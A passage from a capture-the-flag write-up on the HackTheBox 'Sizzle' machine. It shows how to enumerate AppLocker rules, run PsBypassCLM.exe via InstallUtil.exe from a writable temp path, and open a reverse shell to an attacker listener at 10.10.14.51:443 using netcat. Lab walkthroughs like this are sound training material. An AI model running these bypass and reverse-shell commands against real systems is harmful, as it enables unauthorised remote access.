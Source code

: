 
The error message says that execution has been blocked by group policy. I have a hunch that it might be AppLocker. 


We can list the AppLocker policies with:

```powershell
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

![policy-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/execute-33.png)


The Description and Name are a bit deseptive, as the policy dosn't really effect `C:\\Program Files`. Instead, `%OSDRIVE%\tmp\*` refers to `C:\\Windows\Temp`. Therefore, we can place the `PsBypassCLM.exe` binary at `C:\\Windows\Temp` and execute it from there. 


Once the file is there, I start a local listener on my attack machine using:

```bash
rlwrap nc -lnvp 443
```

Next, I execute `PsBypassCLM.exe` with the `revshell` option to connect back to my listener:

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.51 /rport=443 c:\\users\amanda\appdata\local\temp\bypassCLM.exe
```
